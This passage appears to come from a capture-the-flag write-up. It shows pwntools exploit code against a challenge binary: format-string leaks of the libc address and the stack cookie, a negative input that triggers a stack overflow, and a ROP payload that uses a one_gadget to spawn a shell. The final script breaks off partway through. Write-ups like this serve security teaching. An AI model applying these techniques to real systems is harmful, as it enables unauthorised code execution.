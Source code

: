```python
    p.sendline(b'2')

    p.recvuntil(b'> ')
    p.sendline(b'y')

    p.recvuntil(b'> ')
    p.sendline(b'-11')

    p.recvuntil(b'> ')
```

On the next call to `stare`, the count of pies will reach 22, which will trigger the stack overflow.

### Exploitation

The last step is to find a one_gadget that works with our constraints, and build the stack payload to overwrite the legitimate stack and gain a shell:

```python
    p.sendline(b'3')
    p.recvuntil(b'> ')

    ropchain = b''

    one_gadget = 0x4f3d5
    ropchain += flat({
      40: p64(cookie),
      56: p64(libc_base + one_gadget),
    }, length=64, filler=cyclic(64, n=8))

    p.send(ropchain)

    p.interactive()
```

Put it all together:

```python
from pwn import flat, cyclic

def exploit(p, elf, libc):

    # 1. Leak ASLR and stack cookie with format string in fight
    p.recvuntil(b'> ')
    p.sendline(b'1')

    p.recvuntil(b'> ')
    p.sendline(b'%3$p')

    data = p.recvuntil(b'> ')
    m = re.search(b'Your choice is: (0x[a-fA-F0-9]+)\n', data)
    assert(m)
    libc_leak = int(m.group(1), 0)

    libc_base = libc_leak - 0xe4774
    assert((libc_base & 0xfff) == 0)

    p.sendline(b'1')

    data = p.recvuntil(b'> ')
    p.sendline(b'%15$p')

    data = p.recvuntil(b'> ')
    m = re.search(b'Your choice is: (0x[a-fA-F0-9]+00)', data)
    assert(m)
```